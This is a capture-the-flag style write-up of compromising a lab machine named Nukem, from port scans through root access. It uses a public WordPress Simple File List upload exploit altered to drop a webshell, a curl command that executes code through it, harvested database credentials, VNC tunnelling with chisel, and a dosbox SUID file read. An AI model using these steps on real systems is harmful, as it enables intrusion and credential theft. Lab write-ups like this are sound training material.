 # Nukem

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.105
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:50 +08
Nmap scan report for 192.168.183.105
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
5000/tcp  open  upnp
13000/tcp open  unknown
36445/tcp open  unknown
```

RDP is open. Ran a detailed scan as well:

```
$ sudo nmap -p 80,5000,13000 -sC -sV --min-rate 3000 192.168.183.105
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:53 +08
Nmap scan report for 192.168.183.105
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-title: 404 Not Found
13000/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14
```

First thing I took note of was the outdated Wordpress site on port 80.

### Wordpress --> RCE

I ran a `wpscan` on the port 80 application.&#x20;

```
$ wpscan --api-token <API> --enumerate p,t,u --url http://192.168.183.105
```

There were loads of vulnerabilities, but the one that looked the easiest to exploit was the Simple File List RCE:

```
[i] Plugin(s) Identified:

[+] simple-file-list
 | Location: http://192.168.183.105/wp-content/plugins/simple-file-list/
 | Last Updated: 2023-06-08T11:52:00.000Z
 | [!] The version is out of date, the latest version is 6.1.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 6 vulnerabilities identified:
 |
 | [!] Title: Simple File List < 4.2.3 - Unauthenticated Arbitrary File Upload RCE
 |     Fixed in: 4.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/365da9c5-a8d0-45f6-863c-1b1926ffd574
 |      - https://simplefilelist.com/
 |      - https://plugins.trac.wordpress.org/changeset/2286920/simple-file-list
 |      - https://packetstormsecurity.com/files/160221/
```

Unauthenticated = good in this case. `searchsploit` shows that there are 2 exploits publicly available:

```
$ searchsploit Wordpress Plugin simple file list
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
WordPress Plugin Simple File List 4.2.2 - Arbitrary File U | php/webapps/48979.py
WordPress Plugin Simple File List 4.2.2 - Remote Code Exec | php/webapps/48449.py
----------------------------------------------------------- ---------------------------------
```

I found that the first one worked better. Within the exploit, I also changed the payload to drop a webshell instead:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We can then run the exploit and confirm that it works:

```
$ python3 48979.py http://192.168.183.105
[ ] File 4345.png generated with password: 7a1538697392c42d7dbfb559c6fb67aa
[ ] File uploaded at http://192.168.183.105/wp-content/uploads/simple-file-list/4345.png
[ ] File moved to http://192.168.183.105/wp-content/uploads/simple-file-list/4345.php
[+] Exploit seem to work.
[*] Confirmning ...

$ curl http://192.168.183.105/wp-content/uploads/simple-file-list/4345.php?cmd=id
uid=33(http) gid=33(http) groups=33(http)
```

Tested loads of ports, and only reverse shells to port 80 work:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Commander Creds

The `/srv/html/wp-config.php` file contained some creds for the user `commander`:

```php
/** MySQL database username */
define( 'DB_USER', 'commander' );

/** MySQL database password */
define( 'DB_PASSWORD', 'CommanderKeenVorticons1990' );
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### VNC + Dosbox SUID

I checked the SUID binaries available and found `dosbox` was one of them.

```
[commander@nukem ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/dosbox
```

`dosbox` SUID privilege escalation exploits require a GUI to work, and conveniently, VNC on port 5901 is available on the machine:

```
[commander@nukem ~]$ netstat -tulpn 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      401/Xvnc            
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:36445           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:13000           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::3306                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::36445                :::*                    LISTEN      - 
```

Also, within the user's directory, there's a `.vnc` file which presumably contains credentials we need:

```
[commander@nukem ~]$ ls -la .vnc
total 20
drwxr-xr-x  2 commander root      4096 Sep 18  2020 .
drwxr-xr-x 11 commander commander 4096 Jul 12 11:03 ..
-rw-r--r--  1 commander root        54 Sep 18  2020 config
-rw-r--r--  1 commander commander 3479 Feb 17 19:27 nukem:1.log
-rw-------  1 commander commander    8 Sep 18  2020 passwd
```

We can transfer the small `passwd` file over to our machine via `base64` encoding. Then, we can port forward VNC via `chisel`. Using `vncviewer`, we can connect to it:

```
$ vncviewer -passwd passwd 127.0.0.1:5901
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Within the terminal we can run this:

```
dosbox -c 'mount c /' -c "type c:$LFILE"
```

This would spawn a `dosbox` instance (which is basically a cmd.exe instance). Using the `C:` command, we can view the `root` flag:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

There's no scrolling on this Dosbox instance, and the handling of control characters is a little inaccurate (so you can't really backspace). Other than that, we have `root` access over the file system and can do whatever we want.&#x20;

Rooted!
